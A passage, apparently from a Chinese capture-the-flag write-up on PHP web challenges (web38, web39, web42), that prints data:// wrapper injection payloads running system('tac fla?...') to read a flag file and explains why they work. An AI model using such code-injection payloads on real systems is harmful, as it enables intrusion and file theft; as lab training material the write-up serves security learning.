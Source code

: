 payload：

```
?c=data://text/plain,<?= system("tac fla?.*");?>
```



#### web39

代码：

![image-20250124232117021](assets/image-20250124232117021.png)

使用web37的payload即可，执行的实际上是

```
?c=data://text/plain,<?php system("tac fla?.php");?>.php
```

前面已经闭合，后面不会影响其执行

值得一提如果执行`phpinfo();`的话，会在最下面返回`1.php`，因为 `phpinfo()`会返回1



### system命令执行（含黑洞）

#### web42

代码：

![image-20250206215005034](assets/image-20250206215005034.png)
